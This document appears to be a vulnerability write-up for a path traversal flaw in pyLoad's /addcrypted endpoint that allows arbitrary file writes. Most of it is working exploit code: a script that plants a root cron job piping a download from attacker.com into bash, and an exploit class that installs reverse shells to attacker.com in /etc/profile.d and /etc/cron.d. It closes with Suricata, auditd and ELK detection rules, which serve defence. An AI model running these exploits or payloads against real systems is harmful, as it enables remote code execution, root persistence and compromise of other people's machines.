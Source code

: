 
### Technical Characteristics
**Attack Vector**: Network (Unauthenticated HTTP Request)  
**Complexity**: Low (No Special Conditions)  
**Privileges**: None Required  
**User Interaction**: None  
**Scope Change**: Possible (Container → Host Escape)  
**Language-Specific Factors**:  
- Python `os.path.join()` behavior with absolute paths
- Lack of automatic path normalization
- Windows/Linux path separator differences



## Step-by-Step Reproduction Guide

#### 1. Setup Vulnerable Environment
```bash
# Clone vulnerable pyLoad version
git clone https://github.com/pyload/pyload
cd pyload
git checkout 06ea871c9d693045970166eb6572e4bea8644517

# Install dependencies
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# Start pyLoad (default port 8000)
python -m pyload.web --port 8000
```

#### 2. Exploit Execution
```python
import requests
import base64

TARGET = "http://localhost:8000/addcrypted"
MALICIOUS_CRON = """
* * * * * root curl -s http://attacker.com/mal.sh | bash
"""

payload = {
    "package": "../../../../etc/cron.d/pyload_exploit",
    "crypted": base64.b64encode(MALICIOUS_CRON.encode()).decode()
}

response = requests.post(TARGET, data=payload)
print(f"Exploit Status: {response.status_code}")
print(f"File Written: /etc/cron.d/pyload_exploit.dlc")
```

#### 3. Verification
```bash
# Check cron directory
ls -l /etc/cron.d/

# Expected malicious file:
# -rw-r--r-- 1 root root 78 Jul 15 12:34 pyload_exploit.dlc

# Monitor cron execution
tail -f /var/log/cron.log
```

#### 4. Expected Outcome
```
Jul 15 12:35:01 localhost CRON[PID]: (root) CMD (curl -s http://attacker.com/mal.sh | bash)
```

## Proof of Concept (Video Simulation)
```mermaid
sequenceDiagram
    participant Attacker
    participant pyLoad
    participant Filesystem
    
    Note over Attacker: Step 1: Craft Malicious Request
    Attacker->>pyLoad: POST /addcrypted<br>package=../../../../etc/cron.d/exploit<br>crypted=[base64]
    
    Note over pyLoad: Step 2: Vulnerable Path Handling
    pyLoad->>pyLoad: dl_path = '/downloads'<br>package = '../../../../etc/cron.d/exploit'<br>dlc_path = os.path.join(dl_path, package, 'exploit.dlc')
    
    Note over pyLoad: Step 3: Path Resolution
    pyLoad->>pyLoad: dlc_path resolves to<br>/etc/cron.d/exploit.dlc
    
    Note over pyLoad: Step 4: File Write
    pyLoad->>Filesystem: Write malicious.dlc to<br>/etc/cron.d/exploit.dlc
    
    Note over Filesystem: Step 5: Cron Execution
    Filesystem->>Filesystem: Execute payload as root<br>every minute
    
    Note over Attacker: Step 6: Reverse Shell
    Filesystem->>Attacker: Connect to attacker's server
```

## Vulnerable Code 
**File**: `src/pyload/webui/app/blueprints/cnl_blueprint.py`  
**Function**: `addcrypted()`  
**Lines**: 89-93

```python
# Original Vulnerable Code
package = request.form["package"]
dl_path = self.config.get("general", "storage_folder")

# UNSAFE PATH CONSTRUCTION
dlc_path = os.path.join(dl_path, package, f"{package}.dlc")

# INSECURE FILE WRITE
with open(dlc_path, mode="wb") as fp:
    fp.write(request.form["crypted"].encode())
```

**Vulnerability Chain**:
1. User-controlled `package` parameter taken directly from request
2. Path joined without validation: `os.path.join(dl_path, package)`
3. No normalization or path containment check
4. File written with full user control over path and content


## Exploitation Code (Advanced)
```python
import requests
import os
import base64

class pyLoadExploit:
    def __init__(self, target, dl_path="/downloads"):
        self.target = f"{target}/addcrypted"
        self.dl_path = dl_path
        
    def write_file(self, remote_path, content):
        """
        Writes arbitrary content to remote_path on target
        """
        # Calculate traversal depth
        base_depth = len(os.path.abspath(self.dl_path).split(os.sep))
        target_depth = len(remote_path.split(os.sep))
        traversal = "../" * (base_depth + target_depth - 1)
        
        payload = {
            "package": f"{traversal}{remote_path}",
            "crypted": base64.b64encode(content).decode()
        }
        
        return requests.post(self.target, data=payload)
    
    def deploy_backdoor(self):
        """Deploy persistent reverse shell"""
        return self.write_file(
            "/etc/profile.d/pyload_backdoor.sh",
            b"bash -i >& /dev/tcp/attacker.com/4444 0>&1"
        )
    
    def escalate_to_root(self):
        """Create root cron job"""
        return self.write_file(
            "/etc/cron.d/pyload_root",
            b"* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4445 0>&1'"
        )

# Usage
exploit = pyLoadExploit("http://victim:8000")
exploit.escalate_to_root()
```


### Forensic Detection Signatures
```suricata
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"pyLoad Path Traversal Attempt";
    flow:to_server, established;
    content:"POST"; http_method;
    content:"/addcrypted"; http_uri;
    content:"package="; http_client_body;
    pcre:"/package=[^&]*?\.\.\//";
    classtype:web-application-attack;
    sid:21004596;
    rev:1;
)
```

#### 2. File System Monitoring (FIM)
```yaml
# Auditd Rule
-w /etc/cron.d/ -p wa -k pyload_exploit
-w /var/lib/pyload/ -p wa -k pyload_webui
```

#### 3. Log Analysis (ELK Query)
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "source": "/var/log/pyload/pyload.log" } },
        { "regexp": { "message": ".*package=.*\.\..*" } }
      ]
    }
  }
}
```


```mermaid
graph TD
    A[Path Traversal Vulnerability] --> B1[Arbitrary File Write]
    A --> B2[System Compromise]
    
    B1 --> C1[Write to /etc/cron.d]
    B1 --> C2[Modify system binaries]
    B1 --> C3[Overwrite SSH keys]
    B1 --> C4[Poison application configs]
    
    C1 --> D1[Persistence]
    C2 --> D2[Privilege Escalation]
    C3 --> D3[Lateral Movement]
    C4 --> D4[Credential Theft]
    
    D1 --> E1[C2 Communication]
    D2 --> E1
    D3 --> E1
    D4 --> E1
```
